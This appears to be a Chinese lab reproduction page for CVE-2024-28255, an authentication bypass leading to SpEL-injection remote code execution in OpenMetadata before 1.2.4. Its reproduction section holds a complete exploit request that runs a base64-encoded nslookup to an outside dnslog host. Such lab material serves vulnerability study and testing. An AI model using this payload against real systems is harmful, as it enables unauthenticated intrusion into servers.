

# OpenMetadata平台身份验证绕过RCE漏洞(CVE-2024-28255)

​	OpenMetadata是一个统一的发现、可观察和治理平台，由中央元数据存储库、深入的沿袭和无缝团队协作提供支持。它是发展最快的开源项目之一，拥有充满活力的社区，并被各行业垂直领域的众多公司采用。 OpenMetadata 基于开放元数据标准和 API，支持各种数据服务的连接器，支持端到端元数据管理，让您可以自由地释放数据资产的价值。

​	 “JwtFilter”通过要求和验证 JWT 令牌来处理 API 身份验证。当新请求到来时，将对照此列表检查请求的路径。当请求的路径包含任何排除的端点时，过滤器将返回而不验证 JWT。不幸的是，攻击者可能使用路径参数使任何路径包含任意字符串。例如，对“GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/111”的请求将与排除的端点条件匹配，因此将在没有 JWT 验证的情况下进行处理，从而允许攻击者绕过身份验证机制并到达任何任意端点，包括上面列出的导致任意 SpEL 表达式注入的端点。

OpenMetadata官网https://open-metadata.org/

参考链接：

- https://github.com/open-metadata/OpenMetadata/security/advisories/GHSA-6wx7-qw5p-wh84
- https://nvd.nist.gov/vuln/detail/CVE-2024-28255


**Affected versions**：< 1.2.4


## 漏洞环境

执行如下命令启动一个OpenMetadata-v1.2.3-web：

```shell
docker compose -f docker-compose-postgres.yml up --detach
```

环境启动后，访问`http://your-ip:8585`即可跳转到OpenMetadata登录页面


## 漏洞复现

将执行命令nslookup p2h9m0.dnslog.cn 转为base64编码 替换下方payload的base64编码

```
GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22bnNsb29rdXAgcDJoOW0wLmRuc2xvZy5jbg==%22))) HTTP/1.1
Host: 192.168.160.128:8585
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: i18next=en-US; session=f368d9b4-14d9-4287-907c-5579c7559d1e.c9Wh3_S37WPJvNGOpx7JhuM3y8w; redirectUrlPath=%2F; __session=%7B%22id%22%3A%2223804efd-a7ed-42dd-a790-a55c75c9daa8%22%2C%22created%22%3A1713500260268%2C%22createdAt%22%3A%222024-04-19T04%3A17%3A40.268Z%22%2C%22expires%22%3A1713502060268%2C%22expiresAt%22%3A%222024-04-19T04%3A47%3A40.268Z%22%7D
Connection: close

```


查看dnslog

